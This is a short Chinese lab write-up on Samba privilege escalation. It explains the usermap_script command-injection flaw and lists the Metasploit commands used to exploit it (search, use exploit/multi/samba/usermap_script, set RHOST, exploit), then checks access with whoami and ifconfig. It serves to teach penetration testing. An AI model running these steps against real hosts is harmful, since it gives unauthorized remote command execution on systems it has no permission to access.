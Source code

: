 ```yaml
---
title: samba提权
date: 2021-12-20 17:46:48
tags: 
    - samba
    - 提权
---
```


## samba提权

### 利用samba漏洞，获得目标主机root权限

#### 原理:Samba中负责在SAM数据库更新用户口令的代码未经过滤便将用户输入传输给了/bin/sh。如果在调用smb.conf中定义的外部脚本时，通过对/bin/sh的MS-RPC调用提交了恶意输入的话，就可能允许攻击者以nobody用户的权限执行任意命令。

#### 过程：

确定目标存在`445`和`139`端口开放，使用msf，输入命令`search samba`

![image-20211220184011444](http://121.5.125.62/image/samba提权/image-20211220184011444.png)

使用命令`use exploit/multi/samba/usermap_script`，启用漏洞利用模块，终端输入`info`，查看相关信息

![image-20211220184341512](http://121.5.125.62/image/samba提权/image-20211220184341512.png)

输入`set RHOST ip`,设置目标ip地址，输入`exploit`，开始攻击，攻击成功后，建立会话

![image-20211220190130652](http://121.5.125.62/image/samba提权/image-20211220190130652.png)

输入`whoami`查看权限，输入`ifconfig`，查看系统网络信息

![image-20211220190258566](http://121.5.125.62/image/samba提权/image-20211220190258566.png)

实验完成

